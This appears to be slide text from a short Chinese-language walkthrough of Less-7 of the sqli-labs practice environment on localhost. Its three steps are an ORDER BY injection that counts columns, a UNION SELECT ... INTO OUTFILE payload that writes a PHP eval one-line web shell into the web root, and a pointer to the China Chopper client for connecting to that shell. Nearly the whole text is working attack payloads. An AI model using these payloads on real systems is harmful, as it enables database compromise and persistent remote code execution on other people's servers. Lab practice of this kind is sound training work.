

# Less-7
1. http://127.0.0.1/sqli/Less-7/?id=1‘)) order by 3--+ 查看有多少列
2. http://127.0.0.1/sqli/Less-7/?id=-1‘)) union select 1,2,’<?php @eval($_POST[“crow”]);?>‘ into outfile “C:\\phpstudy\\PHPTutorial\\WWW\\sqli\\Less-7\\test.php” --+ 将一句话木马写入其中
3. 使用中国菜刀访问即可！